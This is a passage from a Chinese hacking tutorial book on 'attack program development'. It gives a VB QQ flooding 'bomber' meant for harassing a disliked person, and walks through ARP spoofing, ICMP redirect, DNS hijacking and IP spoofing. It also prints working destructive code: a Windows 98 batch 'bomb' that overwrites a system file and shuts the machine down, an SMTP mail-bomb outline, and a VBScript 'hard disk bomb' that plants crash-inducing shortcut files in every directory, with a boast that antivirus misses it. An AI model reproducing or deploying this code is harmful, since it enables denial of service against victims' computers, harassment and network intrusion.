Dim strContent As String
strContent = frmMain.txtContent.Text
' 发送 WM_SETTEXT 消息来把信息复制到 QQ 的输入窗体
SendMessage lpNewChild, WM_SETTEXT, 0, ByVal strContent
' 发送 BM_CLICK 消息来执行单击发送按钮的事件
SendMessage lpSendButton, BM_CLICK, 0, 0
Do While (GetWindowLong(lpNewChild, GWL_STYLE) And ES_READONLY) = ES_READONLY
DoEvents '转让控制权给QQ,直到本条记录发送完成,再把控制权,交还给本程序
Loop
'之所以加上这个Do While……Loop循环,是为了以便以后做循环发送消息,形成刷屏效果用的
End Sub
```

好了，检验一下我们的成果吧！按F5启动我们的QQ轰炸程序，在文本框中随便输入一些东西。再打开QQ，找一个最让自己讨厌的人，打开他的对话框，然后到我们自己的程序上按一下“轰炸”按钮。呵，信息通过QQ原封不动地送出了。好了，为了达到让对方无力反抗的目的，我们可以再在funSendContent过程中写上个循环，使之连续发送1000次。再看看，早就掉线了！由于篇幅，循环的具体实现就不写了。

程序的主体部分就是这样。但是作为一个要提供给大家使用的工具来说，我还要再把功能加细一些，而且我们的界面还真是够惨不忍睹的，按照自己的想法来做个漂亮的界面吧！在黑白网络上(http://www.heibai.net/download/show.php?id=2956)有本人的这个软件。

以上就是本人写的“QQ轰炸机”的核心程序，希望能对大家有所启发。如果有什么异议或要探讨，可以通过QQ:54840853联系。

### 6.3 网络欺骗攻击

### 一、ARP欺骗

ARP欺骗往往应用于一个内部网络，我们可以用它来扩大一个已经存在的网络安全漏洞。假如你已经攻陷了一个子网内的机器，其它的机器安全也将受到ARP欺骗的威胁。

让我们假设一下的网络结构

| hostname | ip | hw |
|---|---|---|
| A | 192.168.10.1 | MAC_A |
| B | 192.168.10.2 | MAC_B |
| C | 192.168.10.3 | MAC_C |

所有的主机在一个子网内。假设你是A，你具有root权限，你的目标是侵入C。通过种种手段你可以知道C信任B，所以如果你能伪装成B，那么你就能“合法”访问C了。

这里用到一个攻击程序—send_arp.c，一个非常有效的工具。他的作用是发送一个ARP包(ARP回答，准确的说：由于这个协议是无状态的，即使在没有请求的时候也可以做出应答。请求同应答是一样的。)向网络上，你可以把这个包定制成你想要的样子。比如设定arp包的目的地址、源地址、MAC地址等。

当你进行ARP欺骗的时候，如果你不希望A的网卡对外发送arp请求，那么你可以用“ifconfig eth0 -arp”关掉他的ARP协议。你希望C认为B的硬件地址是MAC_A，所以你发送一个ARP应答，它的源地址是192.168.10.2,源硬件地址是MAC_A,目标地址是10.0.0.3和目标硬件地址是MAC_C。现在，C完全相信B的硬件地址是MAC_A。当然C中缓存会过期，所以它会重新发送请求。多长时间发出请求，各个操作系统不同，但是大多来说是40秒钟左右。经常主动发送ARP应答，可以有效保持我们替他制定的ARP缓存(具体说明可以参看W.Richard.Stevens的tcp/ip详解卷一)。这样做的作用是针对各个ARP缓存处理方法的不同会带来问题的复杂性。一些操作系统(例如Linux)会用向缓存地址发非广播的ARP请求来要求更新缓存。这种缓存更新会给你增加麻烦，会使你刚刚替C制定的ARP缓存被更改掉，所以必须避免此事发生。经常的向C发出应答数据，这样它就不会发出请求。正是预防为主。对于B来说，它根本就没有机会来改变这一切。

所以过程是简单的。首先来设置网络接口别名(ifconfig eth0:1 10.0.0.2)，添加B的IP地址并且打开ARP协议（ifconfig eth0 arp）——你需要设置你的ARP缓存，当没有ARP时，它不会工作。然后在正确的网络接口上设置到C的路由。再设置C的ARP缓存。最后，关掉网络接口的ARP功能。这样一切就OK了。现在，当你用send_arp把你定制的arp包发送出去后，那么，C就会认为，你就是B。一定要记住，要持续不断的向C和B发出ARP包。这种攻击方式就仅仅工作在局域网内。在上述试验中C如果是路由器那么我们需要注意的问题是，大部分的路由是采用static（静态）arp缓存的，那么就无法实现我们的设想了，但如果是dynamic（动态）的，你可以轻易的冒充这个局域网内的机器去欺骗这个路由以外的系统了，甚至包括整个internet，此时路由器是作为子网的arp代理工作的。所以目标可以是任何一台机器，但是你要伪装的机器，必须是这个局域网内的，还有关键的问题是使用了dynamic（动态）arp缓存。当然除了欺骗以外，你还可以用ARP作很多事，比如基于arp欺骗的man_in_the_middle窃听等等。下面是send_arp.c的代码：

解决方法：局域网内包括路由器使用静态arp缓存；

### 二、ICMP重定向

另外一个比较有效的并且类似与ARP欺骗的手段是利用另外一个正常的协议—ICMP重定向。这种重定向通常是由你的默认路由器发来的，通告你有一个到达某一网络的更近的路由。最初，既可以通告网络重定向，也可以通告主机的重定向，但是现在，由于网络重定向被否决，仅剩下主机重定向。正确的制作一个经过完整检查的ICMP包（必须由默认路由器发来，发向重定向机器，新的路由应该是一个网络的直接连接等等），接收者会对系统的路由表进行更新。

这是ICMP的安全问题。伪装一个路由器的IP地址是简单的，icmp_redir.c这个程序正是做的这个工作。RFC声明系统必须遵循这个重定向，除非你是路由器。实际上几乎所有的系统都支持这一点（除了vanilla Linux 2.0.30）。

ICMP重定向提供了一个非常有力的欺骗&&DoS工具。不像ARP缓存更新，路由表不存在的过期问题。并且不需要在本地网络，你可以发起攻击从任何地方。所以当目标接受了ICMP重定向之后（包确切抵达），目标就不会再和网络上的一些机器进行通讯（是的，并不是所有的机器，但是一些与目标机器不在同一个网络上的机器）。域名服务器会是一个非常好的攻击目标。

解决办法：禁止系统接受icmp重定向包；

#### 三、域名欺骗

非常简单，攻击者通过某种方法（比如攻破DNS服务器，DNS欺骗，控制路由器）把目标机器域名的对应的IP指到攻击者所控制的机器，这样所有外界对目标机器的请求将被重定向到攻击者的机器，这时攻击者可以转发所有的请求到目标机器，让目标机器进行处理，再把处理结果发回到发出请求的客户机。实际上，就是把攻击者的机器设成目标机器的代理服务器，这样，所有外界进入目标机器的数据流都在攻击者的监视之下了，攻击者可以任意窃听甚至修改数据流里的数据，收集到大量的信息。

下面列举这攻击的实现，假设被攻击者域名为www.target.com，ip为111.111.111.111，另一台是我的linux系统ip为111.111.111.112，我们所控制的DNS为dns.stupid.com。

ok，我在被控制的DNS->dns.stupid.com上把www.target.com的解析ip改为我的linux系统：111.111.111.112，然后在我的linux上运行：./redir --lport=80 --caddr=111.111.111.111 --port=80 & ，所有用这个DNS解析的www.target.com 都指向到我的机器然后重定向到了111.111.111.111，我在我拥有的linux系统上运行一个sniffit，可以抓取任何未通过加密的内容。

解决办法：重要站点直接用ip访问，确保DNS server的安全；

### 四、IP欺骗

IP欺骗攻击的描述：

- 1. 假设Z企图攻击A，而A信任B，所谓信任指/etc/hosts.equiv 和$HOME/.rhosts中有相关设置。注意，如何才能知道A信任 B呢？没有什么确切的办法。建议就是注意搜集蛛丝马迹，厚积薄发。成功的攻击其实主要并不是因为技术上的高明，而是因为信息搜集的广泛翔实。动用了包括社会工程学在内的多种手段，毕竟攻击只以成功为终极目标，不在乎手段的。

- 2. 假设Z已经知道了被信任的B，应该想办法使B的网络功能暂时瘫痪，以免对攻击造成干扰。SYN flood常常是一次 IP欺骗攻击的前奏。请看一个并发服务器的框架：

```
c
int initsockid, newsockid;
if ((initsockid = socket(...)) <0) {
error("can't create socket");
}
if (bind(initsockid, ...) <0) {
error("bind error");
}
if (listen(initsockid, 5) <0) {
error("listen error");
}
for (;;) {
newsockid = accept(initsockid, ...); /* 阻塞 */
if (newsockid <0) {
error("accept error");
}
if (fork() == 0) { /* 子进程 */
close(initsockid);
do(newsockid); /* 处理客户方请求 */
exit(0);
}
close(newsockid);
}
```

listen函数中第二个参数是5，意思是在initsockid上允许的最大连接请求数目。如果某个时刻initsockid上的连接请求数目已经达到5，后续到达initsockid的连接请求将被TCP丢弃。注意一旦连接通过三次握手建立完成，accept调用已经处理这个连接，则TCP连接请求队列空出一个位置。所以这个5不是指initsockid上只能接受5个连接请求。SYN flood正是一种Denial of Service，导致B的网络功能暂时被耗尽；

- 3. Z必须确定A当前的ISN。首先连向25端口(SMTP是没有安全校验 机制的)，与1中类似，不过这次需要记录A的ISN，以及Z到A的 大致的RTT(round trip time)。这个步骤要重复多次以便求出 RTT的平均值。现在Z知道了A的ISN基值和增加规律(比如每秒增 加128000，每次连接增加64000)，也知道了从Z到A需要RTT/2 的时间。必须立即进入攻击，否则在这之间有其他主机与A连接， ISN将比预料的多出64000。## 4. Z向A发送带有SYN标志的数据段请求连接，只是源IP改成了B，注意是针对TCP513端口（rlogin）。A向B回送SYN+ACK数据段，B已经无法响应，B的TCP层只是简单地丢弃A的回送数据段。

5. Z暂停一小会儿，让A有足够时间发送SYN+ACK，因为Z看不到这个包。然后Z再次伪装成B向A发送ACK，此时发送的数据段带有Z预测的A的ISN+1。如果预测准确，连接建立，数据传送开始。问题在于即使连接建立，A仍然会向B发送数据，而不是Z，Z仍然无法看到A发往B的数据段，Z必须蒙着头按照rlogin协议标准假冒B向A发送类似“A++>>~/.rhosts”这样的命令，于是攻击完成。如果预测不准确，A将发送一个带有RST标志的数据段异常终止连接，Z只有从头再来。

```
Z(B) ---- SYN ----> A
B <----- SYN+ACK A
Z(B) ---- ACK ----> A
Z(B) ---- PSH ----> A
```

解决方法：以修改与ISN相关的算法，Linux下容易做到，关闭R系列服务。

### 6.4 一个批处理炸弹的程序揭密

很多网友曾经问我，有什么好炸弹、如何编写、它们是什么原理之类的问题。我也抱着帮朋友入门的思想，用几分钟写了一个炸弹，（只对Windows 98有用），希望通过它可以帮助朋友们认识一下。其实炸弹程序种类很多但是并不可怕。就像下边这个就是利用系统漏洞写的一个批处理炸弹，我们来分析它的源程序：

```
注意：下面源程序需要另存为1219.bat，（“\”后面的为命令解释）。
@echo off \ 关闭在屏幕上显示
SMARTDRV \ 加速磁盘运行
copy c:\windows\system\vmm32.vxd c:\windows\system\vmm32\vmm32.vxd \ 将system下的文件vmm32.vxd复制到文件夹vmm32下，备份vmm32.vxd，以防不测。
ren c:\windows\system\vmm32.vxd 1219.vxd
\ 将vmm32.vxd改名为1219.vxd
echo Hacker1219>c:\windows\system\vmm32.vxd
\ 将Hacker1219写入一个新的Vmm32.vxd文件中
echo del c:\windows\system\vmm32.vxd>c:\windows\system\vmm32\1119.bat \ 将del c:\windows\system\vmm32.vxd 写入c:\windows\system\vmm32文件夹下的1119.bat中。
echo ren c:\windows\system\1219.vxd vmm32.vxd>>c:\windows\system\vmm32\1119.bat \ 将ren c:\windows\system\1219.vxd vmm32.vxd写入c:\windows\system\vmm32文件夹下的1119.bat中。
echo del c:\windows\desktop\1219.url>>c:\windows\system\vmm32\1119.bat
\ 将del c:\windows\desktop\1219.url写入c:\windows\system\vmm32下的1119文件夹下的1119.bat中。
echo [internetshortcut]>c:\windows\desktop\1219.txt
\ 将[internetshortcut]写入桌面的1219.txt文件中
echo url=http://127.0.0.1>>c:\windows\ desktop\1219.txt \ 将url=http://127.0.0.1写入桌面的1219.txt文件中
echo iconindex=1>>c:\windows\desktop\1219.txt
\ 将iconindex=1写入桌面的1219.txt文件中
echo iconfile=c:\con\con.dll>>c:\windows\desktop\1219.txt \ 将iconfile=c:\con\con.dll写入桌面的1219.txt文件中
ren c:\windows\desktop\1219.txt 1219.url \ 将桌面上的1219.txt改名为1219.url
echo on \ 打开屏幕显示
rundll32.exe user.exe,exitwindows \ 关闭计算机
```

另存为1219.bat，如果误运行后可以按F8进入DOS（为了安全，没有给MS-DOS.SYS中加入“BOOTKEYS=0”），运行c:\windows\system\vmm32\1119.bat，就可恢复系统。运行了1219.bat后，如果没有使用1119.bat恢复系统而覆盖安装Windows 98，系统进入桌面蓝屏。具体请看源程序。

### 6.5 一个邮箱炸弹的编程实现

电子邮件是Internet上最普遍的服务，同时也是人们交流的首选，那么如何在程序中实现呢？本文用VB来实现基于ActiveX的SMTP控件。

首先，介绍一下SMTP控件的所在特性，所有向SMTP服务器发送电子邮件过程中所用到的数据单元都包含在下面的控件特性中：

| 特性 | 用途描述 |
|---|---|
| Busy | 若一条命令正在处理中，返回1或false |
| DocInput | 指向DocInput对象，此对象必须在激活SendDoc前设置，表达数据流传送的进度信息 |
| Errors | 对一个错误集的引用，详细描述最后一个错误情况 |
| Notification Mode | 确认如何提供数据已到达的信息 |
| Protocol State | 标识控件的协议类型，有未建立连接、等待连接确认和已建立连接3种状态 |
| RemoteHost | 连接的SMTP服务器名或IP址 |
| RemotePort | 连接的端口号(SMTP--25) |
| ReplyCode | SMTP服务器响应请求发送的代码 |
| ReplyString | SMTP服务器响应请求发送的字符串 |
| State | 报告连接的状态 |

下面介绍SMTP控件的方法：

| 方法 | 使用情况 |
|---|---|
| Cancel | 停止一个即将发送的请求 |
| SendDoc | 发送邮件的全文 |

其中，SendDoc有4个可选参数：

| URL | 标识要传送的远程文件 |
|---|---|
| Headers | 使用头信息传送文件，包括源地址和目标地址 |
| InputData | 是否要设置缓冲区，该缓冲区保存待传送的文档 |
| InputFile | 指向本地要传送的文档 |

再来看看SMTP控件提供事件供程序响应：

| Busy | 当命令正在处理时触发 |
|---|---|
| Cancel | 当执行Cancel时触发 |
| DocInput | 数据在控件发出时触发 |
| Error | 出现错误时触发 |
| ProtocolStateChange | 协议状态发生改变时触发 |
| StateChanged | 状态改变时触发 |
| TimeOut | 指定事项在TimeOut时间内未发生时触发 |

下面建立一个小型应用程序，说明：

- formMail———应用程序主窗口
- cmdSendMessage———发送邮件按钮
- txtSMTPServer——接受邮件的SMTP服务器名的文本框
- txtFromAddress——发送者地址文本框
- txtToAddress——目的邮箱地址文本框
- txtCcAddress——抄送邮箱地址文本框
- txtSubject——邮件主题词文本框
- txtMessageBody——邮件正文文本框
- SMTP1——基于ActiveX的SMTP控件名

具体步骤如下：

- (1)启动Visual Basic 6.0，建立formMail主窗口；Caption=Super Mail，Name=formMail，设置大小，并使它在运行过程中不能改变大小；
- (2)加入cmdSendMessage按钮，Caption=Send Mail，Name=cmdSendMessage；
- (3)加入文本框控件txtSMTPServer，txtFromAddress，txtToAddress，txtCcAddress，txtSubject，txtMessageBody，并分别设置text=“”；
- (4)设置6个Label控件Label1——Label6，分别设置text=SMTP，From，To，CC，Subject，MessageBody；
- (5)在formMail主窗口下加入一个状态条控件，Name=Status，并设置3个格，保存工程；
- (6)在控件工具条中加入SMTP控件，同时需增加对所支持的对象的引用；
- (7)将SMTP控件拉到formMail窗口中，并将其改名为SMTP1；

下面编写应用程序代码：



这就是SMTP控件的应用，相信聪明的读者加入几个循环语句，一个邮箱炸弹就成功了。

## 6.6 利用MS漏洞编写炸弹与恢复方法

现在好多菜鸟们还都是Tools User，平常都是利用别人编好的工具进行入侵和攻击的。什么时候才能编出自己的软件在“肉鸡”上一显身手呢？这可能是好多菜鸟们的愿望吧（包括我）！现在我就来讲一下编制“硬盘炸弹”的具体思路和过程。比较简单，希望高手们多多指教，起到抛砖引玉的作用吧！

声明：本文主要是教学目的。编制“炸弹”并不是本文的目的。主要实验Microsoft Windows98/2k/XP所存在的漏洞。请不要做任何违法行为，否则后果自负。

编制“硬盘炸弹”有好多的思路。有改写“BOOT”区，使硬盘不能自举；也有拼命写入一些垃圾文件，使硬盘爆满。咱们怎么编制呢？首先自己要有个思路，应用什么方法。本文介绍的是利用漏洞使Microsoft Windows98/2k/XP对硬盘某些文件不能读写。

其实这个漏洞早在2001年10月18日就被tombkeeper发现，并发表在安全焦点网站上（www.xfocus.org），题目是《Windows快捷方式可能导致本地拒绝服务和用户口令散列值泄漏以及执行恶意程序》有兴趣的读者可以去看看。我们不是利用全部的漏洞，只是利用其中的一部分。现在我简单地描述一下！

受影响的系统：

Windows 95/98：

- 1. Windows快捷方式包括扩展名为lnk、pif、url的文件。其中url文件为纯文本格式，lnk和pif文件为二进制文件。这3种快捷方式都可以自定义图标文件。当把图标文件名设定为 Windows的默认设备名时，由于设备名称解析漏洞，可导致Windows 95/98系统崩溃。由于对图标的搜索是由Explorer自动完成的，所以只要快捷方式在资源浏览器中出现，就会导致系统崩溃。如果快捷方式在桌面上，那么系统一启动就会崩溃。只有以DOS启动系统，在命令行下删除。由于无法直接设置图标文件名为设备名，只有通过直接编辑的方式来创建。

- 2. 测试：

```
-------把以下代码存为“crash.url”-------
[InternetShortcut]
URL=http://127.0.0.1/
IconIndex=1
IconFile=C:\con\con.dll
----------------END----------------
```

对于lnk和pif文件可先改名，再通过16进制编辑器更改相应字段。

这是我们将要利用在Windows 95/98炸弹的原理，有兴趣的读者可以先在自己的机器上演示一下。

受影响的系统：

Windows 2000/NT/XP

对于Windows NT/2000系统，不会由于设备名称解析而崩溃，但当我们创建一个完全由ASCII字符填充组成的pif文件时，会出现以下情况：

- 1. 一个非法的pif文件（用ASCII字符'x'填充）至少要369字节，系统才认为是一个合法的pif文件，才会以pif的图标[pifmgr.dll,0]显示，才会在属性里有“程序”、“字体”、“内存”、“屏幕”等内容。而且仅仅当一个非pif文件的大小是369字节时查看属性的“程序”页时，不会发生程序错误，哪怕是370字节也不行。当对一个大于369字节的非法pif文件查看属性的“程序”页时，Explorer会出错，提示：“0x77650b82”指令引用的“0x000000000”内存。该内存不能为“read”。但这种错误并不会引起缓冲溢出问题。初步分析了一下，问题出在pif文件的16进制地址：0x00000181[0x87]0x00000182[0x01]和0x00000231[0xC3]0x00000232[0x02]即使是一个合法pif文件，只要改动这4处的任意一处，也会引起程序错误。而只要把0x00000181和0x00000182的值改为[0xFF][0xFF]，那么其他地址任意更改都不会引起错误。

- 2. 当一个大于30857的非法pif文件（用ASCII字符'x'填充）出现在资源管理器中时，会使系统的CPU资源占用达100%，根本不能查看其属性页，也无法在资源管理器中对其进行任何操作，甚至不能在命令提示符中删除。试图删除时会提示：“进程无法访问文件，因为另一个程序正在使用此文件。”但只要把0x00000181和0x00000182中任意一处改为[0xFF]，这种情况就不会发生，这是由于资源浏览器试图显示其实并不存在的图标引起的。如果快捷方式在桌面上，那么系统一启动，这种情况就会出现。只有使用任务管理器中止Explorer.exe的进程，再启动一个命令提示符，从命令行下删除。此问题仅影响Windows NT/2000系统，不影响Windows 95/98。

这是我们将要利用在Windows 2K/NT炸弹的原理，但我在XP机器上发现系统同样存在该漏洞（也可能我的XP版本低），有兴趣的读者可以先在自己的机器上演示一下。效果如图6-3、图6-4所示。

现在我们已经知道Windows的系列漏洞，并且知道这都是致命的，都能导致系统崩溃。我的思路就是在硬盘的每个目录写下其中可以使系统崩溃的导致本地拒绝服务的快捷方式文件。当Windows系统一打开存在导致本地拒绝服务的快捷方式文件的目录时，系统就会崩溃！想一想，如果导致本地拒绝服务的快捷方式文件写在桌面（其实也是一个特殊的目录）上，效果会怎么样？你连机器都开不了。现在我们已经有了编制“硬盘炸弹”的思路，下边就是怎么来实现了（这也是编程的流程，要先有思路，才能用语言来实现）。

## 第6章 攻击程序开发





图6-3

图6-4

对于向硬盘的每个目录下写入固定的文件，实现起来并不是十分的困难，好像用VB、VC++，甚至QBasic GWBasic 和批处理文件都能实现。为了演示，我选用VB Script脚本语言来实现。因为编辑VB Script不用什么编程环境，只用微软的记事本就能完成，并且不需要运行的库文件，只要机器里有WHS就行（安装Windows默认安装的），外加容易让读者看懂。下边就是我的VB Script程序：

```
On Error Resume Next
'开起错误陷阱
Set fs = CreateObject("scripting.filesystemobject")
'以上是声明，创建scripting.filesystemobject对象
Mload
'调用主程序
Sub mload()
alladr
'得到所有的驱动器盘符子程序
END SUB
'主程序MLOAD
Sub makf(PATT)
'创建快捷方式漏洞文件的子程序
On Error Resume Next
```

开起错误陷阱，一般编程，特别是炸弹、病毒等程序一定要应用错误陷阱，不然程序可能因为一些想不到的特殊原因而不能运行，像欢乐时光、爱虫等VBS病毒都大量应用错误陷阱。

```
Dim i,X
'建立两个变量 I, X
Set pfc = fs.CreateTextFile(PATT&"\111111111111.PIF", True)
'因为FS是scripting.filesystemobject对象，我们调用CreateTextFile方法，来建立111111111111.PIF文件
x = "x"
For i = 1 To 30858
pfc.Write X
Next
```

应用漏洞的原理向文件中加30858个“X”，比30857就多一个。

```
PFC.CLOSE
```

上边的一段是针对Windows 2000/XP/NT的快捷方式漏洞文件生成段。

```
Set pfc = fs.CreateTextFile(PATT&"\22222222222.URL", True)
'我们调用 CreateTextFile 方法，来建立 22222222222.URL 文件
pfc.Write "[InternetShortcut]" & vbCrLf
'vbCrLf 为 VBS 的换行符
pfc.Write "URL=http://127.0.0.1/" & vbCrLf
pfc.Write "IconIndex=1" & vbCrLf
pfc.Write "IconFile=C:\con\con.dll" & vbCrLf
PFC.CLOSE
End Sub
```

上边的一段是针对Windows 95/98的快捷方式漏洞文件生成段。

```
Sub folderlist(foldersp)
'本子程序是通过递归来枚举磁盘下所有的目录
On Error Resume Next
Dim f, f1, sf
Set f = fs.GetFolder(foldersp).SubFolders
```

fs.GetFolder是调用scripting.filesystemobject对象的GetFolder方法返回一个和指定路径中文件夹相对应的 Folder 对象， 而SubFolders是GetFolder的属性返回包含所有文件夹的一个 Folders 集合，这些文件夹包含在某个特定的文件夹中，包括设置了隐藏和系统文件属性的那些文件夹。

```
For Each f1 In f
```

如果集合中至少有一个元素，就会进入 For...Each 块执行。一旦进入循环，便先针对 group 中第一个元素执行循环中的所有语句。如果 group 中还有其他的元素，则会针对它们执行循环中的语句。当 group 中的所有元素都执行完了，便会退出循环，然后从 Next 语句之后的语句继续执行。

```
makf(f1.path)
folderlist ( f1.Path )
Next
End Sub
Sub alldr()
```

本子程序是枚举所有的本地磁盘，后调用folderlist来枚举所有目录。

```
Dim dr, d
On Error Resume Next
Set dr = fs.Drives
'调用 FS 对象的 Drives 方法
For Each d In dr
'进入 For Each 循环
If d.drivertype = 2 Then
```

当对象FS的drivertype属性返回驱动器的类型，2为驱动器具有固定介质（不可删除的），包括可删除## 硬盘在内的所有硬盘驱动器；而3为网络驱动器，包括在网络上任何地方都可以共享的驱动器。

```
makf(d.Path)
folderlist(d.Path & "")
End If
Next
End Sub
```

怎么样，大家都看懂了吧？其实我的程序有点像HAPPYTIME破坏部分的代码，要是谁有兴趣，可以比较一下。

现在打开Microsoft的笔记本，把以上的代码敲进去，然后以一个*.VBE结尾的文件方式存盘。如图6-5所示。这样，自己的原创“硬盘炸弹”就编好了！如果你不想自己的机器被炸的话，应该怎么做，我就不提了！



图6-5

因为本程序属于脚本程序，用现在最新的《金山毒霸》查不出是“硬盘炸弹”，所以希望大家能正确应用。此程序威力很大，就算你装了Windows 98/2000/XP 3个系统，你的机器也启动不起来！

解决方法：

- 1.首先在网上不要得罪人，别人要是把炸弹加在邮件里或是直接在网上申请一个个人主页让你去看，估计你的机器肯定会挂！
- 2.要是自己真的中了“炸弹”，不要惊慌，只要把机器硬盘格了，什么炸弹都没用了。
- 3.要是硬盘中真的有重要的东西，不想格硬盘，只能进入DOS状态下手工删除所有炸弹产生的111111111111.PIF 22222222222.URL（庆幸文件名不是随机的）！
- 4.如果觉得以上方法都不行，就用一台机器（没中过炸弹）启动，把被炸的硬盘插上，运行下边程序（不要在Windows下打开被炸硬盘），不然就像如图6-6那样，需要耐心等待。

解决程序如下：

解决程序其实同破坏程序几乎是相同的，只不过把其中的破坏部分的代码改为修复代码。

```
On Error Resume Next
